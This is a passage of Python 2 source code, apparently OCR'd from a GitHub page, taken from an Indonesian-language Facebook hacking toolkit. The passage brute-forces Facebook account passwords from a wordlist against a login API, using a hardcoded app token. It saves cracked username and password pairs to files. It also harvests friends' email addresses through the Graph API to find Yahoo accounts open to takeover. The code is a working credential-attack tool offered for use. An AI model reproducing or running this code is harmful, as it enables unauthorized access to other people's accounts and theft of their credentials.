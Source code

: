 '\x1b[1;97m\xe2\x95\x90'         try:             email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')             passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')             total = open(passw, 'r')             total = total.readlines()             print 40 * '\x1b[1;97m\xe2\x95\x90'             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email             print '\x1b[1;91m[+] \x1b[1;92mJumlah\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             sandi = open(passw, 'r')             for pw in sandi:                 try:                     pw = pw.replace('\n', '')                     sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mMencoba \x1b[1;97m' + pw)                     sys.stdout.flush()                     data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + email + '&amp;locale=en_US&amp;password=' + pw + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     mpsh = json.loads(data.text)                     if 'access_token' in mpsh:                         dapat = open('Brute.txt', 'w')                         dapat.write(email + ' | ' + pw + '\n')                         dapat.close()                         print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'                         print 40 * '\x1b[1;97m\xe2\x95\x90'                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                         keluar()                     else:                         if 'www.facebook.com' in mpsh['error_msg']:                             ceks = open('Brutecekpoint.txt', 'w')                             ceks.write(email + ' | ' + pw + '\n')                             ceks.close()                             print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'                             print 40 * '\x1b[1;97m\xe2\x95\x90'                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                             keluar()                 except requests.exceptions.ConnectionError:                     print '\x1b[1;91m[!] Koneksi Error'                     time.sleep(1)          except IOError:             print '\x1b[1;91m[!] File tidak ditemukan...'             print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'             tanyaw()   def tanyaw():     why = raw_input('\x1b[1;91m[?] \x1b[1;92mIngin membuat wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ')     if why == '':         print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'         tanyaw()     else:         if why == 'y':             wordlist()         else:             if why == 'Y':                 wordlist()             else:                 if why == 't':                     menu_hack()                 else:                     if why == 'T':                         menu_hack()                     else:                         print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'                         tanyaw()   def menu_yahoo():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Dari teman facebook'     print '\x1b[1;37;40m2. Gunakan File'     print '\x1b[1;31;40m0. Kembali'     print     yahoo_pilih()   def yahoo_pilih():     go = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if go == '':         print '\x1b[1;91m[!] Jangan kosong'         yahoo_pilih()     else:         if go == '1':             yahoofriends()         else:             if go == '2':                 yahoolist()             else:                 if go == '0':                     menu_hack()                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mTidak ada'                     yahoo_pilih()   def yahoofriends():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     mpsh = []     jml = 0     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     teman = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)     kimak = json.loads(teman.text)     save = open('MailVuln.txt', 'w')     print 40 * '\x1b[1;97m\xe2\x95\x90'     for w in kimak['data']:         jml += 1         mpsh.append(jml)         id = w['id']         nama = w['name']         links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)         z = json.loads(links.text)         try:             mail = z['email']             yahoo = re.compile('@.*')             otw = yahoo.search(mail).group()             if 'yahoo.com' in otw:                 br.open('https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com')                 br._factory.is_html = True